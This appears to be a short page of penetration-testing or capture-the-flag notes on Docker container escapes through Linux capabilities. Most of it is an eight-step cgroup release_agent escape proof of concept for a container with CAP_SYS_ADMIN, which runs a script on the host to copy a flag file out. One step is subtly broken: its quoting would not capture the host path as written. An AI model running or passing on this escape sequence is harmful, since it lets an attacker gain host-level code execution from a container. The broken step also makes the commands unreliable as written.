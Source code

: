 ## Command to list

### capsh --print

### Interesting privileges: cap_net_admin, cap_sys_time, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid, cap_setuid

## Example: If we have the sys_admin privilege, we can use the following PoC https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.

#### 1.  mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

#### 2.  echo 1 > /tmp/cgrp/x/notify_on_release

#### 3.  host_path='sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab'

#### 4.  echo "$host_path/exploit" > /tmp/cgrp/release_agent

#### 5.  echo '#!/bin/sh' > /exploit

#### 6.  echo "cat /home/user/flag.txt > $host_path/flag.txt" >> /exploit

#### 7.  chmod a+x /exploit

#### 8.  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

